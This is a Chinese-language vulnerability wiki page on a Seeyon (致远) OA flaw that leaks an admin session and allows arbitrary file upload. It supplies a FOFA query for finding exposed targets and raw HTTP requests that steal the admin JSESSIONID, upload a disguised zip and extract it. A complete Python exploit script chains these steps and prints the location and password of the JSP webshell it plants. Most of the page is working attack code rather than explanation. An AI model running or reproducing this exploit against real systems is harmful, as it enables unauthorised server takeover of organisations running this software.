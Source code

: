 # 致远OA Session泄露 任意文件上传漏洞

## 漏洞描述

致远OA通过发送特殊请求获取session，在通过文件上传接口上传webshell控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA 

## FOFA

> [!NOTE]
>
> title="致远"

## 漏洞复现

首先要获取管理员cookie

```js
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 133
Content-Type: application/x-www-form-urlencoded

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1
```

> [!NOTE]
>
> 返回包出现 Sset-Cookie 和 a8genius.do 即为成功获取

![](http://wikioss.peiqi.tech/vuln/zhiyuan-46.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

上传压缩包添加 Cookie上传

```js
POST /seeyon/fileUpload.do?method=processUpload HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.25.1
Cookie: JSESSIONID=3495C4DEF87200EA323B1CA31E3B7DF5
Content-Length: 841
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="firstSave"

true
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="callMethod"

resizeLayout
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="isEncrypt"

0
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="takeOver"

false
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="type"

0
--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file1"; filename="peiqi.png"
Content-Type: image/png

PK....................______
--59229605f98b8cf290a7b8908b34616b--
```

然后构造请求解压压缩包

```js
POST /seeyon/ajax.do HTTP/1.1
Host: 192.168.10.2
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=BDF7358D4C35C6D2BB99FADFEE21F913
Content-Length: 157

method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%222021-04-09%22%2C%225818374431215601542%22%5D
```

状态码返回500即为上传成功

## 漏洞POC

> [!NOTE]
>
> 脚本在文件目录的 POC中
>
> 其中含有zip压缩包 shell.zip, 如果上传失败更改一下文件名

![](http://wikioss.peiqi.tech/vuln/zhiyuan-47.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```python
# coding: utf-8
import requests
import sys
import random
import time
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA                                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/thirdpartyController.do"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200 and "a8genius.do" in response.text and 'set-cookie' in str(response.headers).lower():
            cookies = response.cookies
            cookies = requests.utils.dict_from_cookiejar(cookies)
            cookie = cookies['JSESSIONID']
            targeturl = target_url + '/seeyon/fileUpload.do?method=processUpload'
            print("\033[32m[o] 目标 {} 正在上传压缩包文件.... \n[o] Cookie: {} \033[0m".format(target_url, cookie))
            files = [('file1', ('360icon.png', open('shell.zip', 'rb'), 'image/png'))]
            headers = {'Cookie':"JSESSIONID=%s" % cookie}
            data = {'callMethod': 'resizeLayout', 'firstSave': "true", 'takeOver':"false", "type": '0','isEncrypt': "0"}
            response = requests.post(url=targeturl,files=files,data=data, headers=headers,timeout=60,verify=False)
            reg = re.findall('fileurls=fileurls\+","\+\'(.+)\'',response.text,re.I)
            if len(reg)==0:
                sys.exit("上传文件失败")
            POC_2(target_url, cookie, reg, headers)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url),e)

def POC_2(target_url, cookie, reg, headers):
    vuln_url = target_url + '/seeyon/ajax.do'
    datestr = time.strftime('%Y-%m-%d')
    post = 'method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=%5B0%2C%22' + datestr + '%22%2C%22' + reg[0] + '%22%5D'

    headers['Content-Type']="application/x-www-form-urlencoded"
    print("\033[32m[o] 目标 {} 正在解压文件.... \033[0m".format(target_url))
    try:
        response = requests.post(vuln_url, data=post,headers=headers,timeout=60,verify=False)
        if response.status_code == 500:
            print("\033[32m[o] 目标 {} 解压文件成功.... \033[0m".format(target_url))
            print("\033[32m[o] 默认Webshell地址: {}/seeyon/common/designer/pageLayout/peiqi10086.jsp \033[0m".format(target_url))
            print("\033[32m[o] 蚁剑密码: peiqi \033[0m".format(target_url))
            print("\033[32m[o] 如果目标webshell无法访问，请更换 peiqi_test.zip 中的木马名称 \033[0m".format(target_url))
        else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url),e)
        
        
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-48.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)